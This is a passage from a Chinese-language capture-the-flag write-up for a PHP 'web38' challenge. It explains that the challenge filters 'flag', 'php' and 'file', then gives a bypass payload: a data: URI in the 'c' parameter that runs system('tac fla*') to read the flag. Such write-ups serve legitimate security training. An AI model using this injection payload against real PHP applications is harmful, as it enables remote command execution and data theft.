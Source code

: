 得到flag

------

#### web38

分析

![image-20231216120103215](image/image-20231216120103215.png)

过滤了

```
flag|php|file
```

那么上题中的payload就用不了，重新构建

```
/?c=data:text/plain,<?=system("tac fla*");?>
```

![image-20231216120133499](image/image-20231216120133499.png)

得到flag

------

#### web39

分析
